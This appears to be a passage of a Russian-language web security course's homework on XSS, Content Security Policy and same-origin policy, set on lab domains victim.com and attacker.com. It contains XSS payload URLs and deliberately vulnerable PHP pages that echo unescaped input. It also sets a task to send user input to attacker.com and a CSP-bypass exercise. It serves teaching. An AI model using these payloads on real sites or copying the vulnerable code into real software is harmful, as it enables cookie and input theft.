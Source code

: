 3. Создать файл array.json и разместить его в корневом каталоге своего сервера.
Содержимое файла array.json:
```
{
"summe": [10, 0, -2, 114, 125]
}

Написать программу на языке JavaScript, которая будет делать XHR запрос на http://localhost/array.json, парсить полученный JSON и выводить сумму чисел массива summe.

4. ()Защититься от выполнения JavaScript кода на victim.com/xss.php?text=<script>alert(1)</script> (код страницы ниже) с помощью HTML энкодинга.

<body>
<?php
echo $_GET["text"];
?>
</body>
```

5. () Написать функцию, которая будет сохранять ввод пользователя в переменную и отправлять значение переменной на http://attacker.com


### Урок 6. Браузеры: концепции безопасности
Открыть консоль браузера на http://attacker.com и запросить файл с http://victim.com с помощью XHR. Изучить реакцию браузера в консоли.
Примечание: домены attacker.com и victim.com должны резолвиться в 127.0.0.1, конфиг nginx тоже должен отдавать все так, чтобы на начало задания работало оба алерта. ### Добавить данную политику CSP на сайте http://victim.com. Загрузить страницу victim.com/csp.php?js=<script/src=//attacker.com/evil.js></script>, посмотреть что произошло. Исправить политику CSP так, чтобы вредоносный код не выполнялся.
Файл csp.php 
```<body> <h3>Whatever _malicious_ you inserted shouldn’t be executed!</h3> <?php echo $_GET["js"]; ?> <h3>But legitimate code still should execute</h3> <script src="http://victim.com/some.js"></script> </body>```
Политика CSP Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline' http:
Файл some.js alert("I’m legitimate!")
Файл evil.js alert("I’m evil!")
Не дать вредоносному коду http://victim.com/hw-6-3.php?name=<script>alert("hacked")</script> выполниться на странице http://victim.com/hw-6-3.php (представлена ниже) с помощью политики CSP (написать политику CSP). Легитимный код при это должен выполняться.
Страница hw-6-3.php <body> <h3>Whatever _malicious_ you inserted shouldn’t be executed!</h3> ```<?php echo $_GET["name"]; ?> <h3>But legitimate code still should execute</h3> <script src="http://victim.com/some.js"></script> <script src="http://sub.victim.com/some.js"></script> </body>```
(*) Обойти политику CSP: script-src ‘unsafe-eval’ http://victim.com http://partner.com http://home.victim.com на странице http://victim.com/hw-6-4.html?text=123. Сделать безопасно, понять почему теперь безопасно.
Файл hw-6-4.html <body> <h3>Legitimate code still should execute</h3> <script src="/hw-6-4.js"></script> </body>
Файл hw-6-4.js ```function okFunction () { alert("I'm legitimate!"); } setTimeout(document.URL.split("#")[1], 1000); setTimeout(okFunction, 1000);```
(*) Установить bWAPP. Задания необходимо сдавать в формате скриншотов, которые сопровождаются комментариями. Отчет должен быть в pdf формате. Пожалуйста, пишите в названии pdf файла домашнего задания своё имя.

### Урок 7. Same Origin Policy
1.Это задание выполняется на домене attacker.com. Прочитать куки домена attacker.com и вывести их. Попробовать прочитать и вывести куки домена victim.com.

2. Дан сайт, который при нажатии на кнопку меняет цвет фона. Дописать, чтобы при открытии сайта JS обращался в web storage за цветом фона и восстанавливает его.
```
<body>
<script>
function changeBodyColor(color) {
document.body.style.backgroundColor = color;